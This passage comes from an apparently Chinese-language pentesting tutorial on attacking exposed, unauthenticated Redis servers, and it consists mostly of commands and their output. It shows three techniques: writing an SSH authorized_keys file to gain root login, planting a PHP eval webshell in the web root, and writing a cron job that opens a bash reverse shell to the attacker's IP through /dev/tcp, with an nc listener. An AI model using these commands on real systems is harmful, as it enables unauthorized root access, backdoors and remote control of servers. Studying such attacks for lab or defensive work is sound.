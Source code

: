 ```
#查看是否修改成功然后保存退出
172.16.105.192:6379> CONFIG GET dbfilename
1) "dbfilename"
2) "authorized_keys"
172.16.105.192:6379> save
OK
172.16.105.192:6379>exit 

#kali使用密钥登陆目标机即可成功(-i 选择私钥)
ssh -i id_rsa root@172.16.105.192
```



## 3.2利用redis写入webshell

用法跟上面相同，改变路径，写入我们的shell

```
#使用kali连接目标机(-p指定端口，如果不是默认6379端口可用此命令)
redis-cli -h 172.16.105.192 -p 6379

#更改redis备份路径为/var/www/html(一般就尝试改为web常规根目录)
172.16.105.192:6379> CONFIG SET dir /var/www/html
OK

#设置文件名为shell.php
172.16.105.192:6379> CONFIG SET dbfilename shell.php
OK
172.16.105.192:6379>

#写入shell（也可以像之前方法在本地写好传到redis去）
172.16.105.192:6379> set x "<?php @eval($_POST['a'])?>"
OK

#检查没问题保存退出
172.16.105.192:6379> CONFIG GET dir
1) "dir"
2) "/var/www/html"
172.16.105.192:6379> config get dbfilename
1) "dbfilename"
2) "shell.php"
172.16.105.192:6379> save
OK
172.16.105.192:6379> exit

#访问shell.php，即可执行webshell
```

## 3.3 crontab反弹shell

```
#攻击机开启nc监听6666端口
nc -lvvvp 6666

#连接redis，设置路径和文件名,并写入反弹命令(反弹语句记得要写攻击机的ip)
root@kali:~# redis-cli -h 172.16.105.192 -p 6379
172.16.105.192:6379> set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/172.16.105.165/6666 0>&1\n\n"
OK
172.16.105.192:6379> config set dbfilename root
OK
172.16.105.192:6379> config set dir /var/spool/cron
OK
172.16.105.192:6379> save
```